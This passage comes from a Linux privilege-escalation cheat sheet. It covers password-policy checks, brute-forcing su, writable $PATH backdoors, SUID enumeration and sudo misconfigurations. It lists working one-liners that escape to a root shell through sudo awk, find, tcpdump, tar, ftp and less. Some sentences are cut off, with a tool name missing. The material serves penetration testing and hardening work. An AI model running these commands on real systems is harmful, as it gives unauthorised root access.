 ### Password Policy

```
grep "^PASS_MAX_DAYS\|^PASS_MIN_DAYS\|^PASS_WARN_AGE\|^ENCRYPT_METHOD" /etc/login.defs
```

### Known passwords

If you know any password of the environment try to login as each user using the password.

### Su Brute

If don't mind about doing a lot of noise and `su` and `timeout` binaries are present on the computer, you can try to brute-force user using .
 with `-a` parameter also try to brute-force users.

## Writable PATH abuses

### $PATH

If you find that you can write inside some folder of the $PATH you may be able to escalate privileges by creating a backdoor inside the writable folder with the name of some command that is going to be executed by a different user (root ideally) and that is not loaded from a folder that is located previous to your writable folder in $PATH.

### SUDO and SUID

You could be allowed to execute some command using sudo or they could have the suid bit. Check it using:

```
sudo -l #Check commands you can execute with sudo
find / -perm -4000 2>/dev/null #Find all SUID binaries
```

Some unexpected commands allow you to read and/or write files or even execute a command. For example:

```
sudo awk 'BEGIN {system("/bin/sh")}'
sudo find /etc -exec sh -i \;
sudo tcpdump -n -i lo -G1 -w /dev/null -z ./runme.sh
sudo tar c a.tar -I ./runme.sh a
ftp>!/bin/sh
less>! <shell_comand>
```

### NOPASSWD

Sudo configuration might allow a user to execute some command with another user's privileges without knowing the password.

```
$ sudo -l
User demo may run the following commands on crashlab:
    (root) NOPASSWD: /usr/bin/vim
```

